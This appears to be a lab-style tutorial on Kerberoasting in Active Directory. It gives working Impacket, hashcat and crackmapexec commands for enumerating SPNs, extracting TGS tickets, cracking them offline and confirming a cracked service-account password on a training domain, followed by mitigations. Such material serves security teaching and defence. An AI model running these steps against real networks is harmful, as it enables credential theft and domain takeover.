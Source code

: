 
 **Kerberoasting - Exploiting Service Principal Names (SPNs) in AD**

Kerberoasting is an **Active Directory attack** targeting **service accounts with SPNs** to extract **Kerberos Ticket Granting Service (TGS) tickets** and crack them offline.

## **1. What is Kerberoasting?**

- A **lateral movement** and **privilege escalation** attack.
- Exploits **Service Principal Names (SPNs)** linked to **domain accounts running services**.
- TGS tickets for SPNs are **encrypted with the service account's NTLM hash**.
- **Offline cracking** using **Hashcat** or **John the Ripper** may reveal **cleartext passwords**.
----
## **2. Why is this Dangerous?**

- **Service accounts** often have **elevated privileges** (Domain Admin, Local Admin, MSSQL Admin).
- **Passwords are often weak/reused**, making cracking feasible.
- Gaining a **high-privilege service account** can **compromise the domain**.
---
# **3. Performing a Kerberoasting Attack**

The attack can be conducted from: 
- **Linux (Non-domain joined, using Impacket)**  
- **Windows (PowerView, Rubeus, Mimikatz, setspn.exe)**  
- **SYSTEM context or domain user session**

 **Required Conditions**
- Any **valid domain user credentials**.
- **Access to a Domain Controller (DC)**.
- **A tool to request TGS tickets** (e.g., **GetUserSPNs.py** from Impacket).
---
# **4. Kerberoasting from Linux using Impacket**

**Step 1: Install Impacket**
 
```bash
sudo python3 -m pip install impacket
```
- Impacket provides **GetUserSPNs.py**, which allows **Kerberoasting**.


**Step 2: Enumerate SPNs in the Domain**

Find all **Service Principal Names (SPNs)** running under user accounts.
```bash
GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER>
```

Example output
```bash
ServicePrincipalName                           Name          MemberOf                     PasswordLastSet
---------------------------------------------  ------------  ----------------------
MSSQLSvc/SQL01.inlanefreight.local:1433        sqladmin      Domain Admins               2023-02-15
backupjob/veeam01.inlanefreight.local          backupuser    Backup Operators            2023-02-12
```
- Lists **domain accounts running services**.
- Identifies **potential targets with high privileges**.


**Step 3: Request TGS Tickets**

Extract Kerberos **TGS-REP** tickets for offline cracking.
```bash
GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER> -request
```

**Step 4: Save TGS Ticket to a File**
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqladmin -outputfile sqladmin_tgs
```
- Saves TGS hashes for **offline cracking**.


**Step 5: Crack the Hash with Hashcat**

Use **Hashcat mode 13100** to brute-force the **TGS-REP hash**.
```bash
hashcat -m 13100 sqladmin_tgs /usr/share/wordlists/rockyou.txt
```


Step 6: Verify Credentials & Access

```bash
crackmapexec smb 172.16.5.5 -u sqladmin -p Password123!

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\sqladmin:Password123! (Pwn3d!)
```


---

# **5. Efficacy of the Attack**

**Possible Outcomes:**

1. **TGS Cracked → Domain Admin Access**  **(Critical Risk)**
2. **TGS Cracked → Low-privilege Account**  **(Useful for lateral movement)**
3. **TGS Uncrackable → No Immediate Gain**  **(Medium Risk, depends on password strength)**

**Mitigation Strategies:**
- **Use strong, randomly generated passwords for service accounts.**
- **Monitor Kerberos ticket requests (Event ID 4769).**
- **Restrict service accounts from logging in interactively.**
- **Use Managed Service Accounts (MSAs) to rotate passwords automatically.**
